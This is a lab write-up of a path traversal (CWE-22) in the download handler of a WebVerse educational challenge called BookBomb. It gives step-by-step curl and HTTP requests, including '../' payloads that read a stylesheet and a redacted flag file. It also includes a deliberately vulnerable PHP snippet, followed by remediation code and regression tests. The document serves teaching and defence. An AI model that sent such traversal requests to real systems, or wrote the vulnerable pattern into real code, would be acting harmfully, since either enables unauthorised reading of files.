> **Publication note:** This article documents an authorised WebVerse educational lab reproduced on 20 August 2026. Session values and the literal challenge proof are redacted. Public requests use `<LAB_HOST>`. The temporary lab hostname remains visible in some screenshots because it provides useful request context and is not a reusable secret.

## Executive Summary

BookBomb is a public-domain book library. Its normal interface leads from a book page to a download endpoint such as `download.php?download=frankenstein.txt`.

I first recorded the normal download and a unique missing filename. I then requested the same book as `./frankenstein.txt`, which showed that the handler accepted a relative path form. That was only a useful signal, not proof that the handler could leave its book directory.

For the actual proof, I used the public stylesheet already linked by the application. A normal request to `/static/css/site.css` returned the BookBomb CSS. The download handler returned the same recognizable 7,490-byte stylesheet when I changed its parameter to `../static/css/site.css`. This confirmed that `../` could move outside the intended download directory and read a local file.

The final path reached the redacted WebVerse objective. I reproduced the same sequence in Caido and with `curl`, then stopped.

> **CONFIRMED FINDING**
>
> The anonymous `download` parameter accepts parent-directory path segments and returns local files outside the intended book directory.

## 1. Report Profile

| Field | Verified value |
| --- | --- |
| Platform | WebVerse |
| Lab | BookBomb |
| Difficulty | Easy |
| Reproduction date | 20 August 2026 |
| Authentication | None required |
| Input | `download` in `GET /download.php` |
| Normal value | `frankenstein.txt` |
| Traversal proof | `../static/css/site.css` |
| Primary weakness | [CWE-22](/cwes/cwe-22/): Path Traversal |
| Confirmed result | Local file read outside the intended book directory |
| Evidence | Caido, browser, `curl`, and WebVerse solved-state UI |
| Caido reproduction | Passed |
| Terminal reproduction | Passed |

### Verified Attack Chain

```text
Public BookBomb catalogue
  > book.php?id=frankenstein
Book detail HTML
  > download.php?download=frankenstein.txt
Normal filename
  > 200 and the Frankenstein text
Unique missing filename
  > 404 and File not found
Dot-relative filename
  > 200 and the same book content
Direct /static/css/site.css
  > 200 and the BookBomb stylesheet
download=../static/css/site.css
  > 200 and the same stylesheet through the download handler
download=../../../../flag.txt
  > WEBVERSE{REDACTED}
WebVerse
  > CHALLENGE SOLVED
Stop
```

## 2. Scope and Evidence Limits

I stayed inside the authorised BookBomb lab and used the public book and download flow.

- No account or authenticated session was needed.
- The literal objective is removed from the article and from the public asset set.
- The final Caido response screenshot and final terminal screenshot remain private because both contain the literal objective. Their requests, redacted response markers, and the solved-state screen are included here.
- Several parent-directory depths were tried while locating the objective. The failed requests add no new proof, so the public reproduction keeps only the working path and notes that the depth was adjusted during validation.
- A planned request for `../download.php` was not sent. This article does not claim PHP source disclosure.
- The tests confirm local file reads for the shown CSS and objective paths. They do not confirm directory listing, file writes, PHP inclusion, code execution, or access to other sensitive files.
- The exact server-side implementation was not retrieved. The root-cause section describes the behavior shown by the requests, not a claim about unseen source code.

## 3. Evidence-Led Chronological Reproduction

The proxy and terminal tracks follow the same order:

1. Confirm the public BookBomb application.
2. Open one normal book and read its download links.
3. Record a known-good book download.
4. Send one unique missing filename.
5. Repeat the known file with `./`.
6. Request the public CSS through its normal route.
7. Request that CSS through the download handler with `../`.
8. Use the confirmed traversal path to read the redacted objective.
9. Confirm the solved state and stop.

The CSS comparison is the key step. It connects the path input to real file content outside the normal book directory. The final objective read confirms impact, but it is not the only reason the traversal finding is valid.

## 4. Caido/Burp Reproduction

### Step 1: Confirm the Public Application

I opened the fresh BookBomb host in the Caido browser. The page loaded normally and Caido recorded the matching root request and response.

```http
GET / HTTP/1.1
Host: <LAB_HOST>
```

```bash
curl -i -sS 'https://<LAB_HOST>/'
```



**Figure 1: Browser baseline.** The active instance is BookBomb and the public catalogue is available without authentication.



**Figure 2: Root request.** The first request reaches only `/` on the current lab host.

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 9000
```



**Figure 3: Root response.** The HTML returns the catalogue and links the public stylesheet at `/static/css/site.css`.

### Step 2: Map the Normal Download Flow

I opened the Frankenstein detail page instead of guessing the download route.

```http
GET /book.php?id=frankenstein HTTP/1.1
Host: <LAB_HOST>
```

```bash
curl -i -sS 'https://<LAB_HOST>/book.php?id=frankenstein'
```



**Figure 4: Detail request.** A normal book link supplies the `id=frankenstein` value.



**Figure 5: Detail response.** The page returns `200` and identifies the selected book.

The response contains two legitimate download links:

```html
<a href="/download.php?download=frankenstein.txt">Plain Text (UTF-8)</a>
<a href="/download.php?download=frankenstein.epub">EPUB</a>
```



**Figure 6: Download contract.** The application itself supplies the route, parameter name, and known-good filename.



**Figure 7: Normal user flow.** The browser exposes the Plain Text and EPUB controls used by ordinary visitors.

### Step 3: Record the Known-Good Download

I clicked the Plain Text option and kept the generated request unchanged.

```http
GET /download.php?download=frankenstein.txt HTTP/1.1
Host: <LAB_HOST>
```

```bash
curl -i -sS 'https://<LAB_HOST>/download.php?download=frankenstein.txt'
```



**Figure 8: Known-good request.** The `download` parameter contains the filename supplied by the normal page.

```http
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Content-Length: 585
Content-Disposition: attachment; filename="frankenstein.txt"
```

```text
Frankenstein; or, The Modern Prometheus
by Mary Wollstonecraft Shelley
```



**Figure 9: Known-good response.** The endpoint returns the actual 585-byte book file, not a generic success page.



**Figure 10: Browser download.** The rendered workflow confirms that the response is handled as a real file download.

### Step 4: Send a Missing-File Control

I moved the request to Replay and changed only the filename.

```http
GET /download.php?download=bookbomb_missing_20260820.txt HTTP/1.1
Host: <LAB_HOST>
```

```bash
curl -i -sS 'https://<LAB_HOST>/download.php?download=bookbomb_missing_20260820.txt'
```

```http
HTTP/1.1 404 Not Found
Content-Type: text/plain;charset=UTF-8
Content-Length: 45
```

```text
File not found: bookbomb_missing_20260820.txt
```



**Figure 11: Missing-file control.** A unique nonexistent name returns a distinct `404`. This rules out a generic download response and gives a clear comparison for later requests.

### Step 5: Check the Dot-Relative Form

I replaced the missing name with `./frankenstein.txt`.

```http
GET /download.php?download=./frankenstein.txt HTTP/1.1
Host: <LAB_HOST>
```

```bash
curl -i -sS 'https://<LAB_HOST>/download.php?download=./frankenstein.txt'
```



**Figure 12: Dot-relative request.** The only material change is the `./` prefix in the filename.

```http
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Content-Length: 585
Content-Disposition: attachment; filename="frankenstein.txt"
```



**Figure 13: Dot-relative result.** The handler returns the same book content and size. This shows that it accepts a relative path form, but `./` does not leave the directory and is not traversal proof by itself.

### Step 6: Record a Known Public File

The root HTML already linked `/static/css/site.css`, so I used that harmless public file as the comparison source.

```http
GET /static/css/site.css HTTP/1.1
Host: <LAB_HOST>
```

```bash
curl -i -sS 'https://<LAB_HOST>/static/css/site.css'
```



**Figure 14: Direct CSS request.** This is a normal public request and does not use the download handler.

```http
HTTP/1.1 200 OK
Content-Type: text/css
Content-Length: 7490
```

```css
/* BookBomb - public-domain e-book library. Warm "paper" library aesthetic. */
```



**Figure 15: Public comparison source.** The response contains the BookBomb stylesheet and gives us known content to request through the suspected path input.

### Step 7: Read the Same File Through the Download Handler

I returned to the normal download request and changed only its value to `../static/css/site.css`.

```http
GET /download.php?download=../static/css/site.css HTTP/1.1
Host: <LAB_HOST>
```

```bash
curl -i -sS 'https://<LAB_HOST>/download.php?download=../static/css/site.css'
```



**Figure 16: Parent-directory input.** The `download` value now leaves the normal book directory and points to the public CSS path.

```http
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Content-Length: 7490
Content-Disposition: attachment; filename="site.css"
```



**Figure 17: Traversal proof.** The download handler returns the same recognizable 7,490-byte BookBomb stylesheet shown in Figure 15. The response type changes to a file attachment, but the file content remains the CSS requested through `../`.

This is the finding:

```text
/static/css/site.css
  > public route returns the BookBomb stylesheet

/download.php?download=../static/css/site.css
  > download handler returns the same stylesheet as a file
```

The comparison does not depend only on `200`, response length, or `Content-Disposition`. It uses known file content from a normal route and the matching content returned through the path input.

### Step 8: Read the Objective and Stop

After confirming the file-read primitive, I adjusted the parent-directory depth until the known objective filename was reached. Failed depths are not repeated here because they add no new technique or result.

```http
GET /download.php?download=../../../../flag.txt HTTP/1.1
Host: <LAB_HOST>
```

```bash
curl -i -sS 'https://<LAB_HOST>/download.php?download=../../../../flag.txt'
```



**Figure 18: Objective request.** The same confirmed path input is used with the working parent depth and the lab's objective filename.

```http
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Content-Length: 43
Content-Disposition: attachment; filename="flag.txt"

WEBVERSE{REDACTED}
```

The original response screenshot is kept private because it contains the literal objective. WebVerse accepted the value, as shown in the final solved-state image.

## 5. Terminal/CLI Reproduction

I repeated the same flow with `curl` on the active BookBomb instance. No cookie jar or login was needed because the feature is public.

Set the current host once:

```bash
LAB_HOST='<LAB_HOST>'
```

### Step 1: Confirm the Root Page

```bash
curl -i -sS "https://${LAB_HOST}/"
```

```text
HTTP/2 200
content-type: text/html; charset=UTF-8
<title>BookBomb</title>
<link rel="stylesheet" href="/static/css/site.css">
```



**Figure 19: Terminal root baseline.** The command, `200` status, catalogue HTML, and public CSS link are visible in the same terminal view.

### Step 2: Read the Book Detail Contract

```bash
curl -i -sS "https://${LAB_HOST}/book.php?id=frankenstein"
```

```html
/download.php?download=frankenstein.txt
/download.php?download=frankenstein.epub
```



**Figure 20: Terminal detail mapping.** The HTML independently returns the same two download links seen in Caido.

### Step 3: Download the Known Book File

```bash
curl -i -sS "https://${LAB_HOST}/download.php?download=frankenstein.txt"
```

```text
HTTP/2 200
content-type: application/octet-stream
content-length: 585
content-disposition: attachment; filename="frankenstein.txt"

Frankenstein; or, The Modern Prometheus
by Mary Wollstonecraft Shelley
```



**Figure 21: Terminal known-good download.** `curl` receives the same attachment headers and book body as the proxy track.

### Step 4: Repeat the Missing-File Control

```bash
curl -i -sS "https://${LAB_HOST}/download.php?download=bookbomb_missing_20260820.txt"
```

```text
HTTP/2 404
content-type: text/plain;charset=UTF-8

File not found: bookbomb_missing_20260820.txt
```



**Figure 22: Terminal missing-file control.** The same unique name returns the same clear `404` result outside Caido.

### Step 5: Repeat the Dot-Relative Control

```bash
curl -i -sS "https://${LAB_HOST}/download.php?download=./frankenstein.txt"
```

```text
HTTP/2 200
content-length: 585
content-disposition: attachment; filename="frankenstein.txt"
```



**Figure 23: Terminal dot-relative control.** The `./` form again returns the normal Frankenstein content.

### Step 6: Request the Public CSS Normally

```bash
curl -i -sS "https://${LAB_HOST}/static/css/site.css"
```

```text
HTTP/2 200
content-type: text/css
content-length: 7490
```



**Figure 24: Terminal CSS baseline.** The normal public route returns the full BookBomb stylesheet.

### Step 7: Request the CSS Through the Download Handler

```bash
curl -i -sS "https://${LAB_HOST}/download.php?download=../static/css/site.css"
```

```text
HTTP/2 200
content-type: application/octet-stream
content-length: 7490
content-disposition: attachment; filename="site.css"
```



**Figure 25: Terminal traversal proof.** The independent client receives the same recognizable stylesheet through the `../` download value.

### Step 8: Read the Redacted Objective

```bash
curl -i -sS "https://${LAB_HOST}/download.php?download=../../../../flag.txt" \
  | sed -E 's/WEBVERSE\{[^}]+\}/WEBVERSE{REDACTED}/'
```

```text
HTTP/2 200
content-type: application/octet-stream
content-length: 43
content-disposition: attachment; filename="flag.txt"

WEBVERSE{REDACTED}
```

The original terminal screenshot is private because the output contains the literal objective. The public command includes a display-time replacement so the copied example does not print the secret value.

## 6. Controls and Results

| Test | Result | What it tells us |
| --- | --- | --- |
| `frankenstein.txt` | `200`, 585-byte book content | Normal download behavior |
| Unique missing name | `404`, `File not found` | The handler distinguishes an absent file |
| `./frankenstein.txt` | `200`, same book content | Relative path syntax is accepted, but no directory escape is shown yet |
| Direct `/static/css/site.css` | `200`, 7,490-byte BookBomb CSS | Known public comparison source |
| `../static/css/site.css` through download | `200`, same recognizable 7,490-byte CSS | The handler reads outside the intended book directory |
| Working objective path | `200`, redacted objective | The file-read primitive reaches a file outside the public book set |
| Caido and `curl` | Same response sequence | The result does not depend on one HTTP client |
| WebVerse solved state | Accepted | The platform accepted the recovered objective |

## 7. Root Cause and Classification

The best-fit classification is [CWE-22](/cwes/cwe-22/), Improper Limitation of a Pathname to a Restricted Directory, commonly called Path Traversal. MITRE uses this CWE when external input helps build a path and special path elements let it resolve outside the directory the application intended to restrict.

BookBomb accepts a filename through `download` and serves the resulting file. The observed behavior shows that parent-directory elements reach the filesystem operation without a final containment check that keeps the resolved path inside the book directory.

A simplified vulnerable pattern could look like this:

```php
$requested = $_GET['download'];
$path = $bookDirectory . '/' . $requested;

if (is_file($path)) {
    header('Content-Disposition: attachment; filename="' . basename($requested) . '"');
    readfile($path);
}
```

This snippet explains the behavior. It is not a copy of BookBomb source code, which was not retrieved.

Using `basename()` only for the response filename does not protect the path passed to `readfile()` or another file API. The application must resolve the full candidate path and verify that it still belongs to the permitted directory before opening it.

## 8. Confirmed Impact

- An anonymous visitor can use the tested `download` parameter to read local files outside the intended book directory.
- The public CSS was returned through a parent-directory path, which confirms a real file read rather than filename reflection.
- The same primitive reached the WebVerse objective file.
- Both Caido and `curl` reproduced the result.

The accessible file set depends on the web process permissions and filesystem layout. I did not test configuration files, application source, credentials, directory listings, file writes, PHP inclusion, or command execution.

## 9. Remediation

The safest design is to stop accepting a client-supplied filesystem name. Use an internal identifier and map it to a fixed server-side file:

```php
$allowed = [
    'frankenstein-text' => '/srv/bookbomb/books/frankenstein.txt',
    'frankenstein-epub' => '/srv/bookbomb/books/frankenstein.epub',
];

$id = $_GET['download_id'] ?? '';
if (!isset($allowed[$id])) {
    http_response_code(404);
    exit('Not found');
}

readfile($allowed[$id]);
```

If the filename must remain in the request:

1. Accept only the filename characters and extensions needed by the product.
2. Reject `/`, `\`, null bytes, absolute paths, and parent-directory elements.
3. Resolve the base directory and candidate with `realpath()`.
4. Verify that the final candidate starts with the base directory plus the directory separator.
5. Check that the result is a regular file.
6. Run the web process with the smallest filesystem permission set it needs.
7. Return a generic not-found response instead of reflecting raw path input.

Example containment check:

```php
$base = realpath('/srv/bookbomb/books');
$name = $_GET['download'] ?? '';

if (!preg_match('/\A[a-z0-9][a-z0-9._-]*\z/i', $name)) {
    http_response_code(400);
    exit('Invalid filename');
}

$candidate = realpath($base . DIRECTORY_SEPARATOR . $name);
$prefix = $base . DIRECTORY_SEPARATOR;

if ($candidate === false ||
    !str_starts_with($candidate, $prefix) ||
    !is_file($candidate)) {
    http_response_code(404);
    exit('Not found');
}

readfile($candidate);
```

## 10. How to Verify the Fix

| Regression test | Expected result |
| --- | --- |
| Normal approved book ID or filename | File download still works |
| Unique missing filename | Generic `404` |
| `./frankenstein.txt` | Rejected or safely resolved inside the base directory |
| `../static/css/site.css` | Rejected before file access |
| URL-encoded parent segments | Rejected after decoding and normalization |
| Backslash and mixed separators | Rejected on every supported platform |
| Absolute path | Rejected |
| Symlink leaving the book directory | Rejected after final path resolution |
| Public error response | Does not reflect an internal path |

Repeat the normal file and traversal checks through the proxy and CLI paths. Both should keep valid downloads working while rejecting any candidate that resolves outside the book directory.

## 11. Conclusion

The normal BookBomb interface gave me everything needed to map the finding. The Frankenstein page exposed the real download route and a known-good filename. A missing file gave a clean negative result, while `./frankenstein.txt` showed that relative path syntax was accepted.

The public CSS comparison removed the guesswork. BookBomb returned the same recognizable stylesheet through `download=../static/css/site.css`, proving that the download handler could leave its intended directory and read a local file. The working parent depth then returned the redacted objective. Caido and `curl` produced the same result, and WebVerse recorded the challenge as solved.


**Figure 26: Platform confirmation.** WebVerse marks BookBomb as solved by Mdk22.
